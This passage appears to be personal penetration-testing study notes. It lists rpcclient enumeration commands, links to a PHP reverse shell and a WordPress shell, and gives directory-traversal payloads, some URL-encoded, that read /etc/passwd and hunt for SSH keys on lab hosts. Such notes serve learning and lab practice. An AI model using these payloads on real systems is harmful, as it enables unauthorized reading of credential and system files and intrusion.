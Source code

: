 ```bash
querydispinfo #description of all users
netshareenum #Share enumeration, this only comesup if the current user we're logged in has permissions
netshareenumall
lsaenumsid #SID of all users
```

---

# Web Attacks

<aside>
💡 Cross-platform PHP revershell: ![https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php][https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php]
</aside>

## Directory Traversal

```bash
cat /etc/passwd #displaying content through absolute path
cat ../../../etc/passwd #relative path

# if the pwd is /var/log/ then in order to view the /etc/passwd it will be like this
cat ../../etc/passwd

#In web int should be exploited like this, find a parameters and test it out
http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../etc/passwd
#check for id_rsa, id_ecdsa
#If the output is not getting formatted properly then,
curl http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../etc/passwd 

#For windows
http://192.168.221.193:3000/public/plugins/alertlist/../../../../../../../../Users/install.txt #no need to provide drive
```

- URL Encoding

```bash
#Sometimes it doesn't show if we try path, then we need to encode them
curl http://192.168.50.16/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

- Wordpress
    - Simple exploit: https://github.com/leonjza/wordpress-shell

## Local File Inclusion

- Main difference between Directory traversal and this attack is, here we’re able to execute commands remotely.
